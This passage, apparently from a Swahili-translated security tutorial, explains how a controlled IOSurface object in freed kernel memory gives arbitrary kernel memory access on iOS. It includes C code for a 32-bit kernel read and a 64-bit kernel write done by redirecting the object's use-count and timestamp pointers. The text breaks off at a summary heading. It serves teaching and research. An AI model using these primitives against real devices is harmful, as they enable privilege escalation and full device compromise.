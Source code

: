 Baada ya kupata udhibiti wa kitu cha IOSurface katika kumbukumbu ya kernel (kilichopangwa kwenye ukurasa wa kimwili ulioachiliwa unaoweza kufikiwa kutoka kwa nafasi ya mtumiaji), tunaweza kukitumia kwa **operesheni za kusoma na kuandika za kernel zisizo na mipaka**.

**Sehemu Muhimu katika IOSurface**

Kitu cha IOSurface kina sehemu mbili muhimu:

1. **Pointer ya Hesabu ya Matumizi**: Inaruhusu **kusoma 32-bit**.
2. **Pointer ya Wakati wa Kijalala**: Inaruhusu **kuandika 64-bit**.

Kwa kubadilisha pointers hizi, tunaelekeza kwenye anwani zisizo na mipaka katika kumbukumbu ya kernel, na kuwezesha uwezo wa kusoma/kuandika.

#### Kernel Read ya 32-Bit

Ili kufanya kusoma:

1. Badilisha **pointer ya hesabu ya matumizi** ili kuelekeza kwenye anwani ya lengo minus offset ya 0x14-byte.
2. Tumia mbinu ya `get_use_count` kusoma thamani katika anwani hiyo.
```c
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
uint64_t args[1] = {surfaceID};
uint32_t size = 1;
uint64_t out = 0;
IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
uint64_t orig = iosurface_get_use_count_pointer(info.object);
iosurface_set_use_count_pointer(info.object, addr - 0x14); // Offset by 0x14
uint32_t value = get_use_count(info.client, info.surface);
iosurface_set_use_count_pointer(info.object, orig);
return value;
}
```
#### 64-Bit Kernel Write

Ili kufanya kuandika:

1. Badilisha **kiashiria cha muda kilichoorodheshwa** kwa anwani ya lengo.
2. Tumia njia ya `set_indexed_timestamp` kuandika thamani ya 64-bit.
```c
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
uint64_t args[3] = {surfaceID, 0, value};
IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
iosurface_set_indexed_timestamp_pointer(info.object, addr);
set_indexed_timestamp(info.client, info.surface, value);
iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```
#### Muhtasari wa Mchakato wa Ulaghai
